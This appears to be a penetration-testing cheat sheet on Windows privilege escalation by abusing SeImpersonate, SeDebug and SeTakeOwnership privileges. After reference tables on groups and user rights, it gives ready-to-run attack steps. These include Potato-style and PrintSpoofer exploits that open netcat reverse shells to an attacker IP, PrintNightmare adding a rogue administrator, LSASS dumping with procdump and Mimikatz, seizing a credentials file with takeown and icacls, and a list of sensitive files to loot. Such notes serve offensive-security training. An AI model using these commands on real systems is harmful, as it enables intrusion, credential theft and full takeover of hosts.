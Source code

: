 # Windows User Privileges

In this section will cover:
- SeImpersonate and SeAssignPrimaryToken
- SeDebugPrivilege
- SeTakeOwnershipPrivilege

**Windows Privileges Overview**

Privileges in Windows are rights that an account can be granted to perform a variety of operations on the local system such as managing services, loading drivers, shutting down the system, debugging an application, and more. Privileges are different from access rights, which a system uses to grant or deny access to securable objects. User and group privileges are stored in a database and granted via an access token when a user logs on to a system. An account can have local privileges on a specific computer and different privileges on different systems if the account belongs to an Active Directory domain.

**Rights and Privileges in Windows**

Windows contains many groups that grant their members powerful rights and privileges. Many of these can be abused to escalate privileges on both a standalone Windows host and within an Active Directory domain environment. Ultimately, these may be used to gain Domain Admin, local administrator, or SYSTEM privileges on a Windows workstation, server, or Domain Controller (DC). Some of these groups are listed below.

| Group                       | Description |
|-----------------------------|-------------|
| Default Administrators      | Domain Admins and Enterprise Admins are "super" groups. |
| Server Operators            | Members can modify services, access SMB shares, and backup files. |
| Backup Operators            | Members are allowed to log onto DCs locally and should be considered Domain Admins. They can make shadow copies of the SAM/NTDS database, read the registry remotely, and access the file system on the DC via SMB. This group is sometimes added to the local Backup Operators group on non-DCs. |
| Print Operators             | Members can log on to DCs locally and "trick" Windows into loading a malicious driver. |
| Hyper-V Administrators      | If there are virtual DCs, any virtualization admins, such as members of Hyper-V Administrators, should be considered Domain Admins. |
| Account Operators           | Members can modify non-protected accounts and groups in the domain. |
| Remote Desktop Users        | Members are not given any useful permissions by default but are often granted additional rights such as Allow Login Through Remote Desktop Services and can move laterally using the RDP protocol. |
| Remote Management Users     | Members can log on to DCs with PSRemoting (This group is sometimes added to the local remote management group on non-DCs). |
| Group Policy Creator Owners | Members can create new GPOs but would need to be delegated additional permissions to link GPOs to a container such as a domain or OU. |
| Schema Admins               | Members can modify the Active Directory schema structure and backdoor any to-be-created Group/GPO by adding a compromised account to the default object ACL. |
| DNS Admins                  | Members can load a DLL on a DC, but do not have the necessary permissions to restart the DNS server. They can load a malicious DLL and wait for a reboot as a persistence mechanism. Loading a DLL will often result in the service crashing. A more reliable way to exploit this group is to create a WPAD record. |

**User Rights Assignment**

Depending on group membership, and other factors such as privileges assigned via domain and local Group Policy, users can have various rights assigned to their account.

| Setting Constant              | Setting Name                                        | Standard Assignment                                | Description |
|--------------------------------|-----------------------------------------------------|----------------------------------------------------|-------------|
| SeNetworkLogonRight            | Access this computer from the network               | Administrators, Authenticated Users                | Determines which users can connect to the device from the network. This is required by network protocols such as SMB, NetBIOS, CIFS, and COM+. |
| SeRemoteInteractiveLogonRight  | Allow log on through Remote Desktop Services        | Administrators, Remote Desktop Users               | This policy setting determines which users or groups can access the login screen of a remote device through a Remote Desktop Services connection. A user can establish a Remote Desktop Services connection to a particular server but not be able to log on to the console of that same server. |
| SeBackupPrivilege              | Back up files and directories                       | Administrators                                     | This user right determines which users can bypass file and directory, registry, and other persistent object permissions for the purposes of backing up the system. |
| SeSecurityPrivilege            | Manage auditing and security log                    | Administrators                                     | This policy setting determines which users can specify object access audit options for individual resources such as files, Active Directory objects, and registry keys. These objects specify their system access control lists (SACL). A user assigned this user right can also view and clear the Security log in Event Viewer. |
| SeTakeOwnershipPrivilege       | Take ownership of files or other objects            | Administrators                                     | This policy setting determines which users can take ownership of any securable object in the device, including Active Directory objects, NTFS files and folders, printers, registry keys, services, processes, and threads. |
| SeDebugPrivilege               | Debug programs                                      | Administrators                                     | This policy setting determines which users can attach to or open any process, even a process they do not own. Developers who are debugging their applications do not need this user right. Developers who are debugging new system components need this user right. This user right provides access to sensitive and critical operating system components. |
| SeImpersonatePrivilege         | Impersonate a client after authentication           | Administrators, Local Service, Network Service, Service | This policy setting determines which programs are allowed to impersonate a user or another specified account and act on behalf of the user. |
| SeLoadDriverPrivilege          | Load and unload device drivers                      | Administrators                                     | This policy setting determines which users can dynamically load and unload device drivers. This user right is not required if a signed driver for the new hardware already exists in the driver.cab file on the device. Device drivers run as highly privileged code. |
| SeRestorePrivilege             | Restore files and directories                       | Administrators                                     | This security setting determines which users can bypass file, directory, registry, and other persistent object permissions when they restore backed up files and directories. It determines which users can set valid security principals as the owner of an object. |

**List all privileges**
````
> whoami /priv
````

## SeImpersonate and SeAssignPrimaryToken

These tokens are not considered secure resources, as they are just locations within memory that could be brute-forced by users that cannot read memory. To utilize the token, the SeImpersonate privilege is needed. It is only given to administrative accounts, and in most cases, can be removed during system hardening.

Legitimate programs may utilize another process's token to escalate from Administrator to Local System, which has additional privileges. Processes generally do this by making a call to the WinLogon process to get a SYSTEM token, then executing itself with that token placing it within the SYSTEM space. Attackers often abuse this privilege in the "Potato style" privescs - where a service account can SeImpersonate, but not obtain full SYSTEM level privileges. Essentially, the Potato attack tricks a process running as SYSTEM to connect to their process, which hands over the token to be used.

**SeImpersonate - JuicyPotato**
````
# List Privs
whoami /priv
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled

# Exploitation with Juicy Potato

## Step 1 - Netcat listening
$ sudo nc -lnvp <Our_Port>

## Step 2 - Execute Juicy Potato
> c:\JuicyPotato.exe -l 53375 -p c:\windows\system32\cmd.exe -a "/c c:\nc.exe <Our_IP> <Our_Port> -e cmd.exe" -t *
````

**PrintSpoofer & RoguePotato & PrintNightmare**
````
# Method 1 - PrintSpoofer
## Step 1 - Verify if spooler service is running
> Get-Service Spooler

## Step 2 - Netcat listening
$ sudo nc -lnvp <Our_Port>

## Step 3 - Execute PrintSpoofer
> c:\PrintSpoofer.exe -c "c:\nc.exe <Our_IP> <Our_Port> -e cmd"


# Method 2 - RoguePotato
## Step 1 - Netcat listening
$ sudo nc -lnvp <Our_Port>

## Step 2 - Execute RoguePotato
> c:\RoguePotato.exe -r <Our_IP> -e "c:\nc.exe <Our_IP> <Our_Port> -e cmd" -l 9999


# Method 3 - PrintNightmare (CVE-2021-1675)
## Step 1 - Import the printNightmare.ps1
> Import-Module .\printnightmare.ps1

## Step 2 - Create a new user in localgroup administrators 
> Invoke-Nightmare -NewUser "<new_user>" -NewPassword "<new_password>" -DriverName "PrintME"

## Step 3 - Verify if new user is in localgroup administrators
> net localgroup administrators
````

## SeDebugPrivilege

To run a particular application or service or assist with troubleshooting, a user might be assigned the SeDebugPrivilege instead of adding the account into the administrators group. This privilege can be assigned via local or domain group policy, under Computer Settings > Windows Settings > Security Settings. By default, only administrators are granted this privilege as it can be used to capture sensitive information from system memory, or access/modify kernel and application structures. This right may be assigned to developers who need to debug new system components as part of their day-to-day job. 

**List Privilege**
````
> whoami /priv
SeDebugPrivilege                          Debug programs                                                     Disabled
````

**Dump Lsass Process**
````
# Method 1 - Procdump

## Step 1 - Dump Lsass Process
> procdump.exe -accepteula -ma lsass.exe lsass.dmp

## Step 2 - Copy to our machine or alternative use Mimikatz

## Mimikatz
> mimikatz.exe
# log
# sekurlsa::minidump lsass.dmp
# sekurlsa::logonpasswords


# Method 2 - TaskManager

## Step 1 - Open the taskmanager
## Step 2 - Search for Lsass process and Right-Click
## Step 3 - Create Dump File
## Step 4 - Copy to our directory
> cp <file_lsass.dmp> .
````

**Code Execution**
````
# Code Execution

## Step 1 - List the tasklist and search for the PID of a process with SYSTEM, for example winlogon.exe.
> tasklist 

## Step 2 - Execute debugpriv.ps1
> ipmo .\debugpriv.ps1; ImpersonateFromParentPid -ppid <PID> -command "C:\windows\system32\cmd.exe"


# Reverse Shell
> ipmo .\debugpriv.ps1; ImpersonateFromParentPid -ppid <PID> -command "C:\windows\system32\cmd.exe" -cmdargs "/c powershell.exe -e revshell"
````


## SeTakeOwnershipPrivilege

SeTakeOwnershipPrivilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes. This privilege assigns WRITE_OWNER rights over an object, meaning the user can change the owner within the object's security descriptor. Administrators are assigned this privilege by default. While it is rare to encounter a standard user account with this privilege, we may encounter a service account that, for example, is tasked with running backup jobs and VSS snapshots assigned this privilege. It may also be assigned a few others such as SeBackupPrivilege, SeRestorePrivilege, and SeSecurityPrivilege to control this account's privileges at a more granular level and not granting the account full local admin rights.

**Reviewing Current User Privileges**
````
> whoami /priv
SeTakeOwnershipPrivilege      Take ownership of files or other objects                Disabled
````
Enabling SeTakeOwnershipPrivilege
````
> Import-Module .\Enable-Privilege.ps1
> .\EnableAllTokenPrivs.ps1
> whoami /priv
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
````
**Choosing a Target File**

Next, choose a target file and confirm the current ownership. For our purposes, we'll target an interesting file found on a file share. It is common to encounter file shares with Public and Private directories with subdirectories set up by department. Given a user's role in the company, they can often access specific files/directories.
````
# Check the Owner
> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | Select Fullname,LastWriteTime,Attributes,@{Name="Owner";Expression={ (Get-Acl $_.FullName).Owner }}

If you cannot see who the owner of the file is, we can see who the owner of the directory is.

> cmd /c dir /q 'C:\Department Shares\Private\IT'

 Directory of C:\Department Shares\Private\IT
 
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  .
06/18/2021  12:22 PM    <DIR>          WINLPE-SRV01\sccm_svc  ..
````
**Taking Ownership of the File**
````
# Taking Ownership of the File
> takeown /f 'C:\Department Shares\Private\IT\cred.txt'

# Confirming Ownership Changed
> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}

# Modifying the File ACL
> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant <user>:F
````
**Files of Interest**
- c:\inetpub\wwwwroot\web.config
- %WINDIR%\repair\sam
- %WINDIR%\repair\system
- %WINDIR%\repair\software, %WINDIR%\repair\security
- %WINDIR%\system32\config\SecEvent.Evt
- %WINDIR%\system32\config\default.sav
- %WINDIR%\system32\config\security.sav
- %WINDIR%\system32\config\software.sav
- %WINDIR%\system32\config\system.sav

We may also come across .kdbx KeePass database files, OneNote notebooks, files such as passwords.*, pass.*, creds.*, scripts, other configuration files, virtual hard drive files, and more that we can target to extract sensitive information from to elevate our privileges and further our access.
